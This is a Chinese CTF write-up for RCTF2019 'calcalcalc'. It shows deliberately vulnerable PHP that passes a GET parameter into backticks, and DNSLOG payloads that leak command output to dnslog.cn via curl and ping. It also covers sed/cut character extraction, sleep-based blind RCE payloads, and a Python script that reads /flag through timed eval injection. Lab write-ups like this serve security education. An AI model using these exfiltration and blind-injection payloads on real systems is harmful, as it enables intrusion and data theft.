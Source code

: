 # [RCTF2019]calcalcalc 命令执行的时间盲注

首先让我们多了解一些姿势

## DNSLOG注入攻击

![image-20210810210337783](Time_based-Rce.assets/image-20210810210337783.png)

这是一个常见的反引号代码执行

现在将代码修改为：

```
<?php
highlight_file('index.php');
$cmd = $_GET['cmd'];
`$cmd`;
?>
```

我们知道命令肯定是shell_exec了，但关键是我们该如何得到该命令的回显呢？

经过网上冲浪，发现了两种方法，一种是用dns查询，一种是利用curl命令

下面是我的尝试复现过程

- ### 在vps布置上述的代码


```
为了方便调试加了一行
<?php
highlight_file('index.php');
$cmd = $_GET['cmd'];
`$cmd`;
echo `$cmd`;
?>
```

- ### http://www.dnslog.cn/ 上请求临时域名

（个人域名注册备案过程实在是有点繁琐，等域名备案完成后我会再次尝试）

![1](Time_based-Rce.assets/1.png)

截图是这样的

### 然后在网站上请求

```
/?cmd=curl%20`whoami`.e4bj32.dnslog.cn

或者是

ping%20`ls`.e4bj32.dnslog.cn
```

然后我们能看见上面的结果。

执行了ls命令并且返回了查询到的第一条信息，但是问题是这并不完整。

在sql中我们可以使用limit来确定偏移量，那么在linux中有什么方法呢？

## SED

Linux sed 命令是利用脚本来处理文本文件。

sed 可依照脚本的指令来处理、编辑文本文件。

Sed 主要用来自动编辑一个或多个文件、简化对文件的反复操作、编写转换程序等。

```
-n, --quiet, --silent
               suppress automatic printing of pattern space
-e script, --expression=script
               add the script to the commands to be executed
-f script-file, --file=script-file
               add the contents of script-file to the commands to be executed
--follow-symlinks
               follow symlinks when processing in place
-i[SUFFIX], --in-place[=SUFFIX]
               edit files in place (makes backup if SUFFIX supplied)
-l N, --line-length=N
               specify the desired line-wrap length for the `l' command
--posix
               disable all GNU extensions.
-r, --regexp-extended
               use extended regular expressions in the script.
-s, --separate
               consider files as separate rather than as a single continuous
               long stream.
-u, --unbuffered
               load minimal amounts of data from the input files and flush
               the output buffers more often
-z, --null-data
               separate lines by NUL characters
    --help     display this help and exit
    --version  output version information and exit
    
    
参数说明：
    -e<script>或--expression=<script> 以选项中指定的script来处理输入的文本文件。
    -f<script文件>或--file=<script文件> 以选项中指定的script文件来处理输入的文本文件。
    -h或--help 显示帮助。
    -n或--quiet或--silent 仅显示script处理后的结果。
    -V或--version 显示版本信息。

动作说明：

    a ：新增， a 的后面可以接字串，而这些字串会在新的一行出现(目前的下一行)～
    c ：取代， c 的后面可以接字串，这些字串可以取代 n1,n2 之间的行！
    d ：删除，因为是删除啊，所以 d 后面通常不接任何咚咚；
    i ：插入， i 的后面可以接字串，而这些字串会在新的一行出现(目前的上一行)；
    p ：打印，亦即将某个选择的数据印出。通常 p 会与参数 sed -n 一起运行～
    s ：取代，可以直接进行取代的工作哩！通常这个 s 的动作可以搭配正规表示法！例如 1,20s/old/new/g 就是啦！ 
```

![kali-2021-08-11-14-00-38](Time_based-Rce.assets/kali-2021-08-11-14-00-38.png)

我们再尝试一下`ls | sed -n '1p'`

![2](Time_based-Rce.assets/2.png)

成功查看到了ls 指令的其他内容。

*打出来的信息可能会受到长度的限制，这又该如何解决呢？*

## cut

```
-b, --bytes=LIST        select only these bytes
-c, --characters=LIST   select only these characters
-d, --delimiter=DELIM   use DELIM instead of TAB for field delimiter
-f, --fields=LIST       select only these fields;  also print any line
                          that contains no delimiter character, unless
                          the -s option is specified
-n                      (ignored)
    --complement        complement the set of selected bytes, characters
                          or fields
-s, --only-delimited    do not print lines not containing delimiters
    --output-delimiter=STRING  use STRING as the output delimiter
                          the default is to use the input delimiter
-z, --zero-terminated    line delimiter is NUL, not newline
    --help     display this help and exit
    --version  output version information and exit


参数:

    -b ：以字节为单位进行分割。这些字节位置将忽略多字节字符边界，除非也指定了 -n 标志。
    -c ：以字符为单位进行分割。
    -d ：自定义分隔符，默认为制表符。
    -f ：与-d一起使用，指定显示哪个区域。
    -n ：取消分割多字节字符。仅和 -b 标志一起使用。如果字符的最后一个字节落在由 -b 标志的 List 参数指示的
    范围之内，该字符将被写出；否则，该字符将被排除
```

我们再来尝试：`ls | sed -n '3p' | cut -c 3`![kali-2021-08-11-14-10-04](Time_based-Rce.assets/kali-2021-08-11-14-10-04.png)

## Time-Based-RCE

提交：

```
?cmd=if [1=1];then sleep 10;fi
//真，浏览器沉默10s
?cmd=if [1=2];then sleep 10;fi
//假，浏览器立即响应
```

类似sql注入的时间盲注，利用响应时间来判断，我们就可以达到匹配字符的目的，利用后端来帮我们猜解答案

因此 payload:

```
?cmd = if [$(whoami|base32|cut –c 1)=O];then sleep 10;fi
```

## calcalcalc

写完了没点保存，看payload理解吧

```
import requests
from time import time

url = 'http://6816f9f6-a412-4c2b-bf5b-85130b7d25e4.node4.buuoj.cn:81/calculate'


def encode(payload):
    return 'eval(%s)' % ('+'.join('chr(%d)' % ord(c) for c in payload))


def query(bool_expr):
    payload = "__import__('time').sleep(5) if %s else 1" % bool_expr
    t = time()
    r = requests.post(url, json={'isVip': True, 'expression': encode(payload)})
    # print(r.text)
    delta = time() - t
    print(payload, delta)
    return delta > 5

def binary_search(geq_expression, l, r):
    eq_expression = geq_expression.replace('>=', '==')
    while True:
        if (r - l) < 4:
            for mid in range(l, r + 1):
                if query(eq_expression.format(num=mid)):
                    return mid
            else:
                print('NOT FOUND')
                return
        mid = (l + r) // 2
        if query(geq_expression.format(num=mid)):
            l = mid
        else:
            r = mid

# flag_len = binary_search("len(open('/flag').read())>={num}", 0, 100)
flag_len = 50
print('flag length: %d' % flag_len)

flag = ''
while len(flag) < flag_len:
    c = binary_search("ord(open('/flag').read()[%d])>={num}" % len(flag), 0, 128)
    if c:   # the bs may fail due to network issues
        flag += chr(c)
    print(flag)
```

这个是预期解

https://www.xctf.org.cn/library/details/6cf4733304d816ebb21ff2e4c810ee90ccb7f97f/